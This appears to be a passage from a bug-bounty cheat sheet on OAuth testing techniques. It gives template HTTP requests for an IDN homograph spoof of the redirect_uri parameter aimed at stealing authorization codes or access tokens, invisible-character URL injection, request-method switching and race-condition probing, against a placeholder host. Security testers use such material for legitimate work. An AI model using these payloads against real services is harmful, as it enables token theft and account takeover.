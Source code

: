 ### Use IDN Homograph Attack To Spoof Redirect URL Parameter

> Try To Use IDN Homograph Attack To Spoof Redirect URL Parameter To Steal The Authorization Code OR The Access Token

```http
GET /oauth/Connect?type=code&client_id=ID&state=Random&redirect_uri=https://www.cṍmpany.com&scope=read HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
Referer: https://previous.com/path
Origin: https://www.company.com
```

{% embed url="https://hackerone.com/reports/861940" %}

### Black Characters&#x20;

> Try To Insert Invisible Range %00 To %FF in The URL e.g. me.com%5bcompany.com As Value Of Redirect URL Parameter

{% embed url="https://twitter.com/ElMrhassel/status/1282661956676182017" %}

{% embed url="https://twitter.com/intigriti/status/1185160357872066561" %}

### Change Request Method

> Try To Change Request Method To e.g. GET , POST , HEAD OR PUT To Understand How Company Routes The Different Methods in OAuth Flow

```http
HEAD /oauth/Connect?
 type=code&client_id=ID&state=Random
 &redirect_uri=URL&scope=read HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
Referer: https://previous.com/path
Origin: https://www.company.com
Accept-Encoding: gzip, deflate
```

{% embed url="https://blog.teddykatz.com/2019/11/05/github-oauth-bypass.html" %}

### Race Condition

> Try To Figure Out Reaction Of The Server While Doing Race Condition By Using Turbo Intruder OR Nuclei To Send Simultaneously Requests

```http
GET /oauth/Callback?code=Valid HTTP/1.1
Host: www.company.com
X-Test: %s
email=victim@gmail.com&otp=wrongOTP
```
